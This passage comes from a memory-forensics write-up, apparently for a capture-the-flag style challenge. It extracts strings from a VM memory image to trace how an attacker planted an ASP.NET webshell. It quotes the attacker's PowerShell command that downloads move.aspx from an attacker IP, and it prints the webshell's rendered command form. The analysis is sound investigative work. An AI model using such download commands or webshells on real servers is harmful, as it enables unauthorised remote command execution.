 I’m going to save the strings to a file so I don’t have to re-grep the entire
file each time I want to search:

    
    
    oxdf@hacky$ strings I-like-to-27a787c5.vmem > I-like-to-27a787c5.vmem.strings
    oxdf@hacky$ strings -e l I-like-to-27a787c5.vmem >> I-like-to-27a787c5.vmem.strings 
    

### Web Shells

#### move.aspx

I’ll search for `move.aspx` with `grep` against the strings file. It can be
helpful to pipe that into `sort -u` to get rid of duplicate strings. I’ll find
things like the IIS log lines

One interesting thing that jumps out looks like the PowerShell command that
downloads the webshell from the attacker IP:

    
    
    wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
    

That’s a clear answer to the question of how the webshell was downloaded
(matching what was in the console history).

There’s a couple lines that look like HTML:

    
    
            <filedep name="/move.aspx" />
    <form name="cmd" method="post" action="./move.aspx" id="cmd">
    

I’ll see if I can get the line around that with `grep` using `-A` for lines
after and `-B` for lines before, something like:

    
    
    oxdf@hacky$ cat I-like-to-27a787c5.vmem.strings | grep '<form name="cmd" method="post" action="./move.aspx" id="cmd">' -A 40 -B 20 | less
    

{;.wrap}

There’s a few instances of the line, and I can put together the full webshell:

    
    
    <pre>mover\moveitsvc
    </pre>
    <HTML>
    <HEAD>
    <title>awen asp.net webshell</title>
    </HEAD>
    <body >
    <form name="cmd" method="post" action="./move.aspx" id="cmd">
    <input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwULLTE2MjA0MDg4ODhkZNVOZ3tV2TCTi+hEkha/q+A+5xP6tvrMtJaEupnndGLi" />
    <input type="hidden" name="__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR" value="678AED88" />
    <input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION" value="/wEdAANhi3zf7ocw6tYhjdSr5BwWitssAmaVIY7AayhB9duwcnk2JDuMxrvKtMBUSvskgfEkJOF+BOsGxdOjAd7jGUjGbwkQ2wl4sKonDxvg+iiKWg==" />
    <input name="txtArg" type="text" value="whoami" id="txtArg" style="width:250px;Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" />
    <input type="submit" name="testing" value="excute" id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" />
    <span id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px">Command:</span>
    </form>
    </body>
    </HTML>
    <!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
    <!--    http://michaeldaw.org   04/2007    -->
    